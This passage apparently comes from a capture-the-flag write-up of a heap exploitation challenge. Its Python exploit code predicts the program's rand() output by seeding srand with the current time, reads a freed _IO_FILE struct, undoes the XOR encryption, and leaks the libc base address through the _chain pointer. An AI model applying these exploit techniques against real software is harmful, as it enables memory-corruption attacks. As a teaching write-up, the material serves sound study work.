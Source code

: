 ```py
from ctypes import CDLL
from time import time

libc_imp = CDLL('./libc.so.6')
libc_imp.srand(int(time()))
```

Using these lines of code, we can get the time since the epoch and set it as our random seed. Later we'll be able to call `libc_imp.rand()` to obtain the same random number as the program to decrypt the bytes.

Great ! Let's get the file stream data and decrypt it now :D

```py

create_chonc_file()
delete_chonc_file()

create_chonc(0x1d8) # get the freed file struct
view_chonc(2)

io.recvuntil(b': ')
file_data = io.recv(0x1d0) # sizeof(struct _IO_FILE)

# Now we want to decrypt the file with our random bypass

result = b''
for i in range(0, 0x1d0, 4):
    n = u32(file_data[i:i+4])
    libc_imp.rand()
    key = libc_imp.rand()
    n ^= key
    result += p32(n)

```

by applying the same XOR encryption again, the data returns to it's original form, giving us the bytes of the old *_IO_FILE_plus* struct that used to be there.

A very nice property of file structs is that they are stored in a linked list with it's head stored at the symbol *_IO_list_all*. Then they point to the next stream through the *_chain* member.

Luckily for us, this is the only file that is not a standard stream like *stdin, stdout, stderr* which means it's *_chain* member will point *_IO_2_1_stderr_*, one of the default libc streams. And you guessed it, it is obviously stored somewhere in libc.

The *_chain* member is 8 bytes long (memory address in x64) and is located at offset 0x68.
We can fetch it from our decrypted file struct with the following code 

```py
stderr = unpack(result[0x68:0x70]) # from _IO_FILE offsets to chain -> _IO_2_1_stderr_
libc.address = stderr - libc.sym._IO_2_1_stderr_ 

info("_IO_2_1_stderr_@GLIBC : " + hex(stderr))
info("libc base : " + hex(libc.address))
```
